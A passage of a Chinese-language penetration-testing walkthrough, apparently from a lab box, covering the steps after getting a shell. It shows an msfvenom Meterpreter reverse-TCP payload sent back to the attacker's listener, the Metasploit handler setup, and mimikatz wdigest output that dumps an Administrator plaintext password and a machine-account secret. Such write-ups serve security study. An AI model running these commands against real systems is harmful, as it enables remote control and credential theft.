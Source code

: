 既然拿到 shell 了，我们通过查看 whoami 发现我们是一个管理员权限：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaHIoL6vMOFgWBQVfloNuicvbicFc9icvF1IbxVBGnstP1d0pzKKZaFzLvQ/640?wx_fmt=png)

不管了，先用 cobaltstrike 让目标上线吧，上线之前先看看目标机器上有没有 AV，有的话我们还需要做一下免杀：

```
msfvenom -p windows/meterpreter/reverse\_tcp lhost=192.168.2.28 lport=5555 -f exe>5555.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaLwgsMkQ2nQ75nYsIBkF0Lib2VxbkNMlFZneLCwydJPzSA4x01UACCwg/640?wx_fmt=png)

查看进程发现没有 AV，这个时候就可以直接用 MSF 反弹一个 shell：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse\_tcp
set lhost 192.168.2.28
set lport 5555
run
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaYHmrH1aUTLcdcWSHCZ2kuJl779bnia6S9PaD4cWffUGnKb9NEG98gQg/640?wx_fmt=png)

之后设置 MSF 监听，然后运行木马上线：

```
\#  加载mimikatz模块
load mimikatz
# 抓取密码
wdigest
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiatiaicUJBic5b3Zxz5iasKiaX2HgZJwb89MZVjVficwJict8LEibiaWsboYiaqG1Q/640?wx_fmt=png)

之后使用 MSF 自带的模块进行进程迁移到 system 的进程：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPia1049fKuYq1RH0HfWWRjicJXRib2EEaibgLYT6HYz5UCic1sJ0TOxa3yUkg/640?wx_fmt=png)

这个时候尝试抓目标系统上的密码，我使用的是 MSF 自带的 mimikatz 模块：

```
meterpreter > wdigest 
\[+\] Running as SYSTEM
\[\*\] Retrieving wdigest credentials
wdigest credentials
===================

AuthID    Package    Domain        User           Password
------    -------    ------        ----           --------
0;47706   NTLM                                    
0;997     Negotiate  NT AUTHORITY  LOCAL SERVICE  
0;423161  NTLM       WEB           Administrator  !@#Qwe456
0;996     Negotiate  HACKBOX       WEB$           fd 98 a6 6e 20 e3 7b c1 4d 89 89 44 ac 7d 5e eb e5 e4 05 66 32 4d 9d 18 4e 8d 20 b1 ee 19 31 27 88 ec 81 a4 c1 d7 09 81 8d 49 e2 53 28 fd 98 5b 0a 84 49 b2 12 8c fd e1 f3 be 44 d4 f6 fc 20 54 b4 2b 85 6a 04 6f 5b d4 30 3d 03 b8 bc 84 9e c0 0c 3a 0f fa 9d 13 22 df 80 23 67 72 04 5e be 7c a7 f7 84 f1 eb 3f 5e 0f 85 23 7f 20 24 89 fe 2f 73 08 ee b6 e7 50 f7 e2 d5 19 4b 36 2b 73 90 da d1 c3 e7 a7 c4 32 e6 1b d4 7c e2 de 46 35 2d ff f7 d0 53 0d 38 76 4a a7 98 7b 95 a4 1e 72 7c ad b3 d6 fc 81 f0 af 7f 43 e7 38 58 fc 5b a1 2a 67 65 aa 09 f2 ff 2d 46 a6 6b 51 1a 25 58 77 d1 bc 75 6c 12 94 10 34 57 b7 5b 02 e6 cb 1c 7b e4 a1 ee cf 91 0c 7c 81 53 74 5e e4 8e 5f 11 be 72 e0 77 42 c3 73 08 af d2 fe 17 18 4a 29 24 bd 4a 86
```